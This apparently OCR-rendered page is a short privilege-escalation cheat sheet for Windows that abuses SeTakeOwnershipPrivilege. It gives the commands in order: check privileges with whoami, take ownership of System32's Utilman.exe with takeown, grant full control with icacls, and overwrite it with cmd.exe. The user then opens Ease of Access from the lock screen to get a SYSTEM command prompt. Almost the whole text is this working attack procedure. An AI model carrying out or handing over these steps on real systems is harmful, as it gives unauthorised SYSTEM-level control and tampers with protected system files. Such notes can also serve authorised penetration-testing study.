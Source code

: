 The SeTakeOwnership privilege allows a user to ***take ownership of any SYSTEM object*** (e.g., `files`, `registry keys`). This can be exploited by taking ownership of a SYSTEM-level service's executable.

**Check Privileges**
```
whoami /priv
```
- `SeTakeOwnershipPrivilege`

**Abuse `utilman.exe` to Escalate Privilege.** It is a built-in Windows application and run with SYSTEM privileges.

**Take Ownership of Utilman to replace it.**
```
takeown /f C:\Windows\System32\Utilman.exe
```

**Assign yourself Full Permissions over Utilman**
```
icacls C:\Windows\System32\Utilman.exe /grant USERNAME:F
```

**Replace Utilman with a copy of Cmd.exe**
```
copy cmd.exe utilman.exe
```

**To trigger Utilman, lock your screen from the Start Button**

**Proceed to click on the "Ease of Access" button, which runs Utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe, we will get a cmd prompt with SYSTEM privileges.**

